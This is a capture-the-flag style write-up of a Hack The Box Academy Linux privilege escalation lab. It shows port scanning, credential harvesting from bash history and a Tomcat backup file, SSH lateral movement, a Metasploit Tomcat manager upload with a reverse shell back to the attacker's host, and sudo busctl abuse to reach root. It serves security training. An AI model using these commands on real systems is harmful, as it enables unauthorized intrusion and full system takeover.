


# [Linux Privilege Escalation](https://academy.hackthebox.com/module/details/51)

## Skills Assessment - Linux Privilege Escalation

> We have been contracted to perform a security hardening assessment against one of the `INLANEFREIGHT` organizations' public-facing web servers.
> The client has provided us with a low privileged user to assess the security of the server. Connect via SSH and begin looking for misconfigurations and other flaws that may escalate privileges using the skills learned throughout this module.
> Once on the host, we must find `five` flags on the host, accessible at various privilege levels. Escalate privileges all the way from the `htb-student` user to the `root` user and submit all five flags to finish this module.

>  SSH to `10.129.235.16` (`ACADEMY-LLPE-SKILLS-NIX03`) with user `htb-student` and password "Academy_LLPE!".

Questions:
1. Submit the contents of `flag1.txt`. `LLPE{***************************`
2. Submit the contents of `flag2.txt`. `LLPE{***********************`
3. Submit the contents of `flag3.txt`. `LLPE{*****************`
4. Submit the contents of `flag4.txt`. `LLPE{*******************`
5. Submit the contents of `flag5.txt`. `LLPE{*****************************`

#### External Information Gathering

```
┌──(nabla㉿kali)-[~]
└─$ sudo nmap -Pn -sS -p- 10.129.235.16 -T5

[SNIP]

22/tcp    open  ssh
80/tcp    open  http
8080/tcp  open  http-proxy
33060/tcp open  mysqlx
```

```
┌──(nabla㉿kali)-[~]
└─$ whatweb http://10.129.235.16:80/ http://10.129.235.16:8080/

http://10.129.235.16:8080/ [200 OK] Apache-Tomcat, Country[RESERVED][ZZ], IP[10.129.235.16], Title[Apache Tomcat]

http://10.129.235.16:80/ [200 OK] Apache[2.4.41], Bootstrap, Country[RESERVED][ZZ], Email[info@inlanefreight.loca,info@inlanefreight.local], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.129.235.16], Script, Title[Inlane Freight]
```

#### Foothold - SSH

```
┌──(nabla㉿kali)-[~]
└─$ ssh htb-student@10.129.235.16

htb-student@10.129.235.16's password: 
Welcome to Ubuntu 20.04.1 LTS (GNU/Linux 5.4.0-45-generic x86_64)

[SNIP]

htb-student@nix03:~$
```

#### Information Gathering - Environment Enumeration

```
htb-student@nix03:~$ ls -la

total 32
drwxr-xr-x 4 htb-student htb-student 4096 Sep  6  2020 .
drwxr-xr-x 5 root        root        4096 Sep  6  2020 ..
-rw------- 1 htb-student htb-student   57 Sep  6  2020 .bash_history
-rw-r--r-- 1 htb-student htb-student  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 htb-student htb-student 3771 Feb 25  2020 .bashrc
drwx------ 2 htb-student htb-student 4096 Sep  6  2020 .cache
drwxr-xr-x 2 root        root        4096 Sep  6  2020 .config
-rw-r--r-- 1 htb-student htb-student  807 Feb 25  2020 .profile
```

```
htb-student@nix03:~$ cat .bash_history

[SNIP]

ls /var/www/html
cat /var/www/html/flag1.txt
```

```
htb-student@nix03:~$ ls -la /var/www/html/

total 104
drwxr-xr-x 6 www-data www-data  4096 Sep  6  2020 .
drwxr-xr-x 4 root     root      4096 Sep  2  2020 ..
-rw-r--r-- 1 www-data www-data 15312 Jan 28  2019 about.html
drwxr-x--- 5 www-data www-data  4096 Sep  2  2020 blog
-rw-r--r-- 1 www-data www-data  8197 Jan 28  2019 contact.html
drwxr-xr-x 2 www-data www-data  4096 Jan 17  2019 css
-rw-r--r-- 1 www-data www-data  6724 Jan 28  2019 error.html
drwxr-xr-x 2 www-data www-data  4096 Jan 17  2019 fonts
-rw-r--r-- 1 www-data www-data  9274 Jan 28  2019 gallery.html
drwxr-xr-x 2 www-data www-data  4096 Jan 18  2019 images
-rw-r--r-- 1 www-data www-data 15183 Sep  2  2020 index.html
-rw-r--r-- 1 www-data www-data 10955 Jan 28  2019 services.html
-rw-r--r-- 1 www-data www-data  2009 Jul  1  2017 w3layouts-License.txt
```

```
htb-student@nix03:~$ find / -type f -name ".*" -exec ls -l {} \; 2>/dev/null | grep 'htb-student'

[SNIP]

-rw-r--r-- 1 htb-student www-data 33 Sep  6  2020 /home/htb-student/.config/.flag1.txt
```

```
htb-student@nix03:~$ cat .config/.flag1.txt

LLPE{*************************** 📌
```

#### Information Gathering - Environment Enumeration

```
htb-student@nix03:~$ ls -la /home/

total 20
drwxr-xr-x  5 root        root        4096 Sep  6  2020 .
drwxr-xr-x 20 root        root        4096 Sep  2  2020 ..
drwxr-xr-x  5 barry       barry       4096 Sep  5  2020 barry
drwxr-xr-x  4 htb-student htb-student 4096 Sep  6  2020 htb-student
drwxr-xr-x  4 mrb3n       mrb3n       4096 Sep  8  2020 mrb3n
```

```
htb-student@nix03:~$ ls -la /home/barry/

total 40
drwxr-xr-x 5 barry barry 4096 Sep  5  2020 .
drwxr-xr-x 5 root  root  4096 Sep  6  2020 ..
-rwxr-xr-x 1 barry barry  360 Sep  6  2020 .bash_history
-rw-r--r-- 1 barry barry  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 barry barry 3771 Feb 25  2020 .bashrc
drwx------ 2 barry barry 4096 Sep  5  2020 .cache
-rwx------ 1 barry barry   29 Sep  5  2020 flag2.txt
drwxrwxr-x 3 barry barry 4096 Sep  5  2020 .local
-rw-r--r-- 1 barry barry  807 Feb 25  2020 .profile
drwx------ 2 barry barry 4096 Sep  5  2020 .ssh
```

```
htb-student@nix03:~$ cat /home/barry/.bash_history

[SNIP]

sshpass -p 'i_l0ve_s3cur1ty!' ssh barry_adm@10.129.235.16
```

```yaml
credentials:
    username: barry
    password: 'i_l0ve_s3cur1ty!'
    host: 10.129.235.16
    port: 22 (SSH)
```

#### Lateral Movement

```
┌──(nabla㉿kali)-[~]
└─$ sshpass -p 'i_l0ve_s3cur1ty!' ssh barry@10.129.235.16

Welcome to Ubuntu 20.04.1 LTS (GNU/Linux 5.4.0-45-generic x86_64)

[SNIP]

barry@nix03:~$
```

```
barry@nix03:~$ cat flag2.txt

LLPE{*********************** 📌
```

#### Linux Privilege Escalation Abusing Privileged Groups

```
barry@nix03:~$ id

uid=1001(barry) gid=1001(barry) groups=1001(barry),4(adm)
```

```
barry@nix03:~$ find / -type f -name "flag3.txt" -ls 2>/dev/null

393416      4 -rw-r-----   1 root     adm            23 Sep  5  2020 /var/log/flag3.txt
```

```
barry@nix03:~$ cat /var/log/flag3.txt

LLPE{***************** 📌
```

#### Information Gathering - Web Applications

```
barry@nix03:~$ find / -type f -name "flag4.txt" -ls 2>/dev/null

528779      4 -rw-------   1 tomcat   tomcat         25 Sep  5  2020 /var/lib/tomcat9/flag4.txt
```



```
┌──(nabla㉿kali)-[~]
└─$ curl -s http://10.129.235.16:8080/ | html2text

****** It works ! ******
If you're seeing this page via a web browser, it means you've setup Tomcat
successfully. Congratulations!
This is the default Tomcat home page. It can be found on the local filesystem
at: /var/lib/tomcat9/webapps/ROOT/index.html
Tomcat veterans might be pleased to learn that this system instance of Tomcat
is installed with CATALINA_HOME in /usr/share/tomcat9 and CATALINA_BASE in /
var/lib/tomcat9, following the rules from /usr/share/doc/tomcat9-common/
RUNNING.txt.gz.
You might consider installing the following packages, if you haven't already
done so:
tomcat9-docs: This package installs a web application that allows to browse the
Tomcat 9 documentation locally. Once installed, you can access it by clicking
here.
tomcat9-examples: This package installs a web application that allows to access
the Tomcat 9 Servlet and JSP examples. Once installed, you can access it by
clicking here.
tomcat9-admin: This package installs two web applications that can help
managing this Tomcat instance. Once installed, you can access the manager
webapp and the host-manager_webapp.
NOTE: For security reasons, using the manager webapp is restricted to users
with role "manager-gui". The host-manager webapp is restricted to users with
role "admin-gui". Users are defined in /etc/tomcat9/tomcat-users.xml.
```

#### Information Gathering - Environment Enumeration

```
barry@nix03:~$ ls -la /etc/tomcat9

[SNIP]

-rw-r-----  1 root tomcat   2232 Sep  5  2020 tomcat-users.xml
-rwxr-xr-x  1 root barry    2232 Sep  5  2020 tomcat-users.xml.bak
```

```
barry@nix03:~$ cat /etc/tomcat9/tomcat-users.xml.bak

[SNIP]

 <role rolename="admin-script"/>
 <user username="tomcatadm" password="T0mc@t_s3cret_p@ss!" roles="manager-gui, manager-script, manager-jmx, manager-status, admin-gui, admin-script"/>

</tomcat-users>
```

```yaml
credentials:
    username: tomcatadm
    password: 'T0mc@t_s3cret_p@ss!'
    host: 10.129.235.16
    port: 80 (HTTP)
```

#### Attacking Tomcat Application



```
┌──(nabla㉿kali)-[~]
└─$ msfconsole -q -x 'use exploit/multi/http/tomcat_mgr_upload; set PAYLOAD java/shell_reverse_tcp; set RHOSTS 10.129.235.16; set RPORT 8080; set LHOST 10.10.15.186; set LPORT 1337; set HttpUsername tomcatadm; set HttpPassword T0mc@t_s3cret_p@ss!; exploit'

[SNIP]

[*] Meterpreter session 1 opened (10.10.15.186:1337 -> 10.129.235.16:60082) at 2025-07-30 08:57:43 -0500

python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```
tomcat@nix03:/var/lib/tomcat9$ id

uid=997(tomcat) gid=997(tomcat) groups=997(tomcat)
```

```
tomcat@nix03:/var/lib/tomcat9$ cat /var/lib/tomcat9/flag4.txt

LLPE{******************* 📌
```

#### Linux Privilege Escalation Abusing Special Permissions

```
tomcat@nix03:/var/lib/tomcat9$ sudo -l

[SNIP]

User tomcat may run the following commands on nix03:
    (root) NOPASSWD: /usr/bin/busctl
```


```
tomcat@nix03:/var/lib/tomcat9$ sudo busctl --show-machine

!/bin/sh
```

```
# id

uid=0(root) gid=0(root) groups=0(root)
```

```
# cat /root/flag5.txt

LLPE{***************************** 📌
```

---
---
